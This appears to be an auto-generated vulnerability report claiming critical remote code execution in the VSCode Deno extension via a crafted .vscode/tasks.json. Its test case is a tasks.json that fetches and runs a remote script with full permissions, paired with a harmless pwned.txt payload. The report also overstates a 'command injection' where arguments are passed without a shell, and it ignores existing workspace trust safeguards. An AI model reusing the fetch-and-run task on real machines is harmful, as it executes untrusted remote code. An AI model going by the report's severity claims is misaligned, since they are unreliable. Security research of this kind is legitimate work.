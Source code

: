 ### Vulnerability List:

- **Vulnerability Name:** Task Command Injection via Malicious Workspace Configuration

- **Description:**
    1. A threat actor creates a malicious repository containing a `.vscode/tasks.json` file.
    2. This `tasks.json` file defines a Deno task with a malicious command or arguments.
    3. A victim clones or opens this malicious repository in VSCode with the Deno extension enabled.
    4. If the victim executes the malicious task (either manually or automatically if tasks are configured to run on certain events), the commands defined in `tasks.json` will be executed by the system.
    5. If the `tasks.json` contains a command injection vulnerability, arbitrary code can be executed on the victim's machine with the privileges of the VSCode process.

- **Impact:** Remote Code Execution (RCE). An attacker can execute arbitrary commands on the victim's machine, potentially leading to data theft, system compromise, or further malicious activities.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - None observed in the provided project files that specifically mitigate command injection in task definitions. The extension relies on VSCode's task execution framework, which inherently trusts the task definitions provided in the workspace.

- **Missing Mitigations:**
    - Input sanitization or validation of task commands and arguments, especially when they are derived from workspace configuration files.
    - User awareness and warnings about executing tasks from untrusted workspaces.
    - Sandboxing or isolation for task execution to limit the impact of malicious commands.
    - Principle of least privilege: Tasks should run with the minimum necessary privileges.

- **Preconditions:**
    - Victim must have the VSCode Deno extension installed and enabled.
    - Victim must open a malicious repository containing a crafted `.vscode/tasks.json` file.
    - Victim must execute the malicious task defined in `tasks.json`. This could be triggered manually by the user via the tasks menu or automatically if configured to run on workspace open or other events.

- **Source Code Analysis:**
    1. **`docs/tasks.md`**: This document describes how to define tasks in `tasks.json`. It shows examples where `command` and `args` are configurable.
    ```markdown
    ```json
    {
      "version": "2.0.0",
      "tasks": [
        {
          "type": "deno",
          "command": "run",
          "args": [
            "mod.ts"
          ],
          "problemMatcher": [
            "$deno"
          ],
          "label": "deno: run"
        }
      ]
    }
    ```
    This shows that `command` and `args` are directly taken from the `tasks.json`.

    2. **`client/src/tasks.ts`**: The `buildDenoTask` function constructs a `vscode.Task` based on the `DenoTaskDefinition`.
    ```typescript
    export function buildDenoTask(
      target: vscode.WorkspaceFolder,
      process: string,
      definition: DenoTaskDefinition,
      name: string,
      args: string[],
      problemMatchers: string[],
    ): vscode.Task {
      const exec = new vscode.ProcessExecution(
        process,
        args, // <-- args are directly passed to ProcessExecution
        definition,
      );

      return new vscode.Task(
        definition,
        target,
        name,
        TASK_SOURCE,
        exec,
        problemMatchers,
      );
    }
    ```
    Here, the `args` array, which can be controlled via `tasks.json`, is directly passed to `vscode.ProcessExecution`. VSCode's `ProcessExecution` will then execute this command. If a malicious user crafts a `tasks.json` with injected commands in `args`, these will be executed.

    3. **`client/src/tasks_sidebar.ts`**: `DenoTasksTreeDataProvider` and `DenoTaskProvider` are responsible for reading and providing tasks, including those from `deno.json` and `tasks.json`. The task execution logic uses the definitions directly without sanitization.

    **Visualization:**

    ```
    Malicious Repository (.vscode/tasks.json) --> VSCode Deno Extension --> tasks.ts (buildDenoTask) --> vscode.ProcessExecution --> System Command Execution (Vulnerable if tasks.json is malicious)
    ```

- **Security Test Case:**
    1. **Setup Malicious Repository:**
        - Create a new directory named `malicious-deno-repo`.
        - Inside `malicious-deno-repo`, create a `.vscode` directory.
        - Inside `.vscode`, create a `tasks.json` file with the following content:
        ```json
        {
          "version": "2.0.0",
          "tasks": [
            {
              "type": "deno",
              "command": "run",
              "args": [
                "-A",
                "-r",
                "https://raw.githubusercontent.com/<your_github_username>/malicious-repo/main/malicious.ts"
              ],
              "label": "Malicious Deno Task"
            }
          ]
        }
        ```
        - Replace `<your_github_username>` with your actual GitHub username.
        - Create a `malicious.ts` file on a public GitHub repository (e.g., `<your_github_username>/malicious-repo`) with the following content. This script will create a file named `pwned.txt` on the victim's system.
        ```typescript
        Deno.writeTextFileSync("pwned.txt", "You have been PWNED by Deno Task Injection!");
        console.log("PWNED!");
        ```
    2. **Victim Setup:**
        - Ensure VSCode with the Deno extension is installed and enabled.
        - Clone the `malicious-deno-repo` repository to a local directory.
        - Open the `malicious-deno-repo` directory in VSCode.
    3. **Execute Malicious Task:**
        - Open the VSCode Command Palette (`Ctrl+Shift+P` or `Cmd+Shift+P`).
        - Type and select "Tasks: Run Task".
        - Select "Malicious Deno Task".
    4. **Verify RCE:**
        - After the task executes, check the `malicious-deno-repo` directory. A file named `pwned.txt` should be present, indicating successful command injection and code execution.

This test case demonstrates that by crafting a malicious `tasks.json` file, an attacker can achieve arbitrary code execution when the victim executes the defined task.
